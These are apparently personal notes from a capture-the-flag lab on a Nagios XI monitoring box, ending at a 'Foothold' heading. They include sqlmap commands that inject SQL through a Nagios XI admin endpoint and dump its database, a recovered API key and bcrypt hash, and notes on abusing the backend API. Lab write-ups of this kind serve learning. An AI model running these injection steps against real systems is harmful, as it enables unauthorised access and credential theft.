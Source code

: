 ```bash
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=2&token=c9d756eb89729ad6bcdbf56c9b4cdb855f6284a4' --level=5 --risk=3 --batch -p id --random-agent --dbs

sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=2&token=c9d756eb89729ad6bcdbf56c9b4cdb855f6284a4' --level=5 --risk=3 --batch -p id --random-agent --dbms=$databaseType -D $targetDatabase --tables 


sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=2&token=264623c0d0f26c52058d9af4ecda7ab30a7e7b6c' --level=5 --risk=3 --batch -p id --random-agent -D $targetDatabase -T $targetTable --dump
```


WTF is going on with `sqlmap`
![](sqlmapfinallyworks.png)

![](AMAZING.png)

```
IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C
```

## Web Access

While to try make this as real as possible I started cracking the hash with hashcat - it is bcrypt so will take atleast 4 hours. In the mean while as I am catching up to my team I have API key, but bare minimum experience hacking APIs let alone successfully. 

https://assets.nagios.com/downloads/nagiosxi/docs/Accessing_The_XI_Backend_API.pdf

https://www.nagios.org/ncpa/help/2.0/api.html and combined with https://support.nagios.com/forum/viewtopic.php?p=260111 and checking with team mates. I got here through teammates and need to reverse enigneer how they got here or I could not forgive myself.
![](usingtheapikey.png)
1. Hint  https://support.nagios.com/forum/viewtopic.php?p=260111, but no user endpoint is stated
2. `ffuf` got benched in the process.

```python

/nagiosxi/api/v1/system/

?apikey=

```

![1080](attemptstillsuccess.png)

My theoretical understanding really came together while think of questions as to how this was suppose to work. I did have hints from team mates. If I had done this live with the other earlier in the week what should have done was:
1. Take a step back
	- What can an Admin do thorough an API that meets objective add a user - it backend api for administration panel
2. What version of the API is accessible and running
3. Consider the directory layout
4. Use clues from forums post if the documentation does not exist
## Foothold
